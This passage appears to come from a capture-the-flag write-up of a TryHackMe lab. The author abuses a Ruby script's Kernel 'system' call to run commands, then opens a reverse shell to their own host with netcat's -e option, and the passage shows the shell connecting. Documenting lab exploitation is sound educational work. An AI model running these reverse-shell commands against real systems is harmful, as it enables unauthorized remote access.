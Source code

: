 **This should spawn a sh shell for us:**
```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/sh"     
red-stone-one-carat% 
```

Hmm... Doesn't work.

Let's take a step back.

**If we can execute any OS command from `test.rb`, why not just use that ruby script?**
```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/ls -lah"
total 72K
drwxr-xr-x 4 noraj   noraj   4.0K Jan 12 03:28 .
drwxr-xr-x 4 root    root    4.0K May 17  2021 ..
drwxr-xr-x 2 root    root    4.0K May 17  2021 bin
drwx------ 2 noraj   noraj   4.0K Jan 12 03:28 .cache
-rw-r--r-- 1 vagrant vagrant   36 May 17  2021 .hint.txt
-rw-r--r-- 1 vagrant vagrant   37 May 17  2021 user.txt
-rw-rw-r-- 1 noraj   noraj    42K Jan 12 03:28 .zcompdump.red-stone-one-carat.1398
-rw-r--r-- 1 vagrant vagrant   20 May 17  2021 .zshrc
```

It worked!

**Let's get a reverse shell!**
```shell
╭─root at siunam in ~/ctf/thm/ctf/Red-Stone-One-Carat 2023-01-12 - 11:36:07
╰─○ nc -lnvp 443
listening on [any] 443 ...
```

```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/nc.traditional 10.9.0.253 443 -e /bin/sh" 
exec /bin/sh failed : Permission denied
```

Wait, permission denied?

**Let's try `zsh`:**
```shell
red-stone-one-carat% test.rb Kernel 'system' "/bin/nc.traditional 10.9.0.253 443 -e /bin/zsh"
```

```shell
╭─root at siunam in ~/ctf/thm/ctf/Red-Stone-One-Carat 2023-01-12 - 11:36:10
╰─○ nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.47.251] 52508
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
whoami;hostname;id
noraj
red-stone-one-carat
uid=1001(noraj) gid=1001(noraj) groups=1001(noraj)
```

It worked!
